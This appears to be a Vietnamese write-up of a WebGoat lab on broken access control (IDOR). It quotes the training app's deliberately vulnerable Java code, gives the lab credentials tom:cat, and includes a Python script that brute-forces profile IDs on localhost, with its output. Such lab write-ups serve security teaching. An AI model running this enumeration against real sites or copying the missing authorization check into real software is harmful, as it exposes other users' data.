 ```java
        return failed(this).feedback("idor.view.profile.close2").build();
      }
```

```java
String authUserId = (String) userSessionData.getValue("idor-authenticated-user-id");
    // this is where it starts ... accepting the user submitted ID and assuming it will be the same
    // as the logged in userId and not checking for proper authorization
    // Certain roles can sometimes edit others' profiles, but we shouldn't just assume that and let
    // everyone, right?
    // Except that this is a vulnerable app ... so we will
    UserProfile currentUserProfile = new UserProfile(userId);
    if (userSubmittedProfile.getUserId() != null
        && !userSubmittedProfile.getUserId().equals(authUserId)) {
        // ...
```

### **POC**

Ở phần 2 và 3, khi đăng nhập tài khoản **`tom:cat`** thì khi nhấn vào view profile để xem thông tin thì có một request được gửi đi `/profile` với response trả về như hình 

![Untitled]((A1)Broken%20Access%20Control%207fb110e753944c7fa58a48dee83dff10/Untitled%207.png)

Sử dụng url này kèm với userId: `…/profile/{userId}` thì có được một response như sau

![Untitled]((A1)Broken%20Access%20Control%207fb110e753944c7fa58a48dee83dff10/Untitled%208.png)

Feedback trả về nói là đã đúng đường dẫn nhưng cần thử một userId khác, lúc này chỉ cần viết một script nhỏ để bruteforce userId hợp lệ (hoặc dùng Intruder của Burp Suite)

```python
import requests

URL = "http://localhost:8080/WebGoat/IDOR/profile/"
headers = {  
    'Cookie': 'JSESSIONID={your session id}'
}  
id = 2342384
while True:
    r = requests.get(URL + str(id), headers=headers)
    json = r.json()
    lessonCompleted = json["lessonCompleted"]
    if lessonCompleted == True:
        print("[+] ID found: " + str(id))
        break
    else:
        id += 1
        print("[-] Trying ID: " + str(id))
```

```powershell
PS C:>Users/Admin/Desktop> python -u "d:\VNPT\projects\WebGoat\Payload\bruteforce-id.py"
[-] Trying ID: 2342385
[-] Trying ID: 2342386
[-] Trying ID: 2342387
[-] Trying ID: 2342388
[+] ID found: 2342388
```

